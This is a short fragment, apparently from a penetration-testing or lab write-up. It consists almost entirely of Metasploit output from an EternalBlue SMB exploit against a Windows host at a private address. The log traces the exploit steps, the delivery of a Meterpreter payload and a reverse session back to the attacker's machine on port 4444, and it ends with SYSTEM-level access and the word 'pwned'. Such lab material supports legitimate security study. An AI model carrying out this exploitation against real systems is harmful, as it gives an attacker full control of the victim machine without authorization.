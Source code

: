 [*] 10.150.150.242:445 - Starting non-paged pool grooming
[+] 10.150.150.242:445 - Sending SMBv2 buffers
[+] 10.150.150.242:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.150.150.242:445 - Sending final SMBv2 buffers.
[*] 10.150.150.242:445 - Sending last fragment of exploit packet!
[*] 10.150.150.242:445 - Receiving response from exploit packet
[+] 10.150.150.242:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.150.150.242:445 - Sending egg to corrupted connection.
[*] 10.150.150.242:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.150.150.242
[*] Meterpreter session 1 opened (10.66.67.46:4444 -> 10.150.150.242:51211) at 2021-03-01 05:29:56 +0100
[+] 10.150.150.242:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.150.150.242:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.150.150.242:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

3. pwned
